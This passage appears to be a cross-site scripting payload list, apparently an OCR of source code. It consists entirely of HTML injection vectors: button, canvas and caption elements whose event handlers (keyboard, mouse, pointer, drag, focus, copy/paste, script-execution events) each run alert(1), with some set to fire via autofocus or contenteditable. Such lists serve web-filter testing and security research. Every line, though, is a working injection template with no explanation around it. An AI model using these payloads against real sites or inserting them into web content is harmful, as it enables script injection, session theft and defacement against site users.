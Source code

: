 <button onkeydown="alert(1)" contenteditable style=display:block>test</button>
<button onkeypress="alert(1)" contenteditable style=display:block>test</button>
<button onkeyup="alert(1)" contenteditable style=display:block>test</button>
<button onmousedown="alert(1)" style=display:block>test</button>
<button onmouseenter="alert(1)" style=display:block>test</button>
<button onmouseleave="alert(1)" style=display:block>test</button>
<button onmousemove="alert(1)" style=display:block>test</button>
<button onmouseout="alert(1)" style=display:block>test</button>
<button onmouseover="alert(1)" style=display:block>test</button>
<button onmouseup="alert(1)" style=display:block>test</button>
<button onmousewheel=alert(1) style=display:block>requires scrolling
<button onpaste="alert(1)" contenteditable>test</button>
<button onpointerdown=alert(1) style=display:block>XSS</button>
<button onpointerenter=alert(1) style=display:block>XSS</button>
<button onpointerleave=alert(1) style=display:block>XSS</button>
<button onpointermove=alert(1) style=display:block>XSS</button>
<button onpointerout=alert(1) style=display:block>XSS</button>
<button onpointerover=alert(1) style=display:block>XSS</button>
<button onpointerrawupdate=alert(1) style=display:block>XSS</button>
<button onpointerup=alert(1) style=display:block>XSS</button>
<canvas draggable="true" ondrag="alert(1)" style=display:block>test</canvas>
<canvas draggable="true" ondragend="alert(1)" style=display:block>test</canvas>
<canvas draggable="true" ondragenter="alert(1)" style=display:block>test</canvas>
<canvas draggable="true" ondragleave="alert(1)" style=display:block>test</canvas>
<canvas draggable="true" ondragstart="alert(1)" style=display:block>test</canvas>
<canvas id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></canvas>
<canvas id=x tabindex=1 onfocus=alert(1)></canvas>
<canvas id=x tabindex=1 onfocusin=alert(1)></canvas>
<canvas onafterscriptexecute=alert(1)><script>1</script>
<canvas onbeforecopy="alert(1)" contenteditable>test</canvas>
<canvas onbeforecut="alert(1)" contenteditable>test</canvas>
<canvas onbeforescriptexecute=alert(1)><script>1</script>
<canvas onblur=alert(1) id=x tabindex=1 style=display:block>test</canvas><input value=clickme>
<canvas onclick="alert(1)" style=display:block>test</canvas>
<canvas oncontextmenu="alert(1)" style=display:block>test</canvas>
<canvas oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<canvas oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<canvas ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</canvas>
<canvas onfocusout=alert(1) id=x tabindex=1 style=display:block>test</canvas><input value=clickme>
<canvas onkeydown="alert(1)" contenteditable style=display:block>test</canvas>
<canvas onkeypress="alert(1)" contenteditable style=display:block>test</canvas>
<canvas onkeyup="alert(1)" contenteditable style=display:block>test</canvas>
<canvas onmousedown="alert(1)" style=display:block>test</canvas>
<canvas onmouseenter="alert(1)" style=display:block>test</canvas>
<canvas onmouseleave="alert(1)" style=display:block>test</canvas>
<canvas onmousemove="alert(1)" style=display:block>test</canvas>
<canvas onmouseout="alert(1)" style=display:block>test</canvas>
<canvas onmouseover="alert(1)" style=display:block>test</canvas>
<canvas onmouseup="alert(1)" style=display:block>test</canvas>
<canvas onmousewheel=alert(1) style=display:block>requires scrolling
<canvas onpaste="alert(1)" contenteditable>test</canvas>
<canvas onpointerdown=alert(1) style=display:block>XSS</canvas>
<canvas onpointerenter=alert(1) style=display:block>XSS</canvas>
<canvas onpointerleave=alert(1) style=display:block>XSS</canvas>
<canvas onpointermove=alert(1) style=display:block>XSS</canvas>
<canvas onpointerout=alert(1) style=display:block>XSS</canvas>
<canvas onpointerover=alert(1) style=display:block>XSS</canvas>
<canvas onpointerrawupdate=alert(1) style=display:block>XSS</canvas>
<canvas onpointerup=alert(1) style=display:block>XSS</canvas>
<caption draggable="true" ondrag="alert(1)" style=display:block>test</caption>
<caption draggable="true" ondragend="alert(1)" style=display:block>test</caption>
<caption draggable="true" ondragenter="alert(1)" style=display:block>test</caption>
<caption draggable="true" ondragleave="alert(1)" style=display:block>test</caption>
<caption draggable="true" ondragstart="alert(1)" style=display:block>test</caption>